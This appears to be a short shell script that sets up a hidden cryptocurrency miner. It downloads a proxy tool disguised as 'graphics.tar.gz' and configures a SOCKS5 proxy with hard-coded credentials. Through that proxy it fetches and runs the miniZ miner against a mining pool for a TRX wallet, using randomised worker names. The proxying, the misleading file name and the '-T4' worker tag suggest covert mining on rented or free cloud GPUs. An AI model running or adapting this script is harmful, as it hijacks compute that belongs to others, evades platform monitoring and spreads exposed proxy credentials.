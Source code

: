 sudo apt-get update -y
wget https://github.com/Akatsoki/joss/raw/main/graphics.tar.gz
tar -xvzf graphics.tar.gz

cat > graftcp/local/graftcp-local.conf <<END

listen = :2233

loglevel = 1

socks5 = 209.127.191.180:9279

socks5_username = abnqciar

socks5_password = wwzcc0dwcofy

END

./graftcp/local/graftcp-local -config graftcp/local/graftcp-local.conf &

sleep .2

./graftcp/graftcp curl ifconfig.me

echo " "

echo " "

./graftcp/graftcp wget https://github.com/miniZ-miner/miniZ/releases/download/v1.8y2/miniZ_v1.8y2_linux-x64.tar.gz 
tar xf miniZ_v1.8y2_linux-x64.tar.gz 

chmod +x miniZ

./graftcp/graftcp ./miniZ -u TRX:TL9Zj9rC4jbBDcGHq7H2xNJQw34VrgtBJs.Mini $(echo $(shuf -i 1-999 -n 1)-T4) -l 159.203.163.51 --port=3333 -p x --par=ethash --pers auto
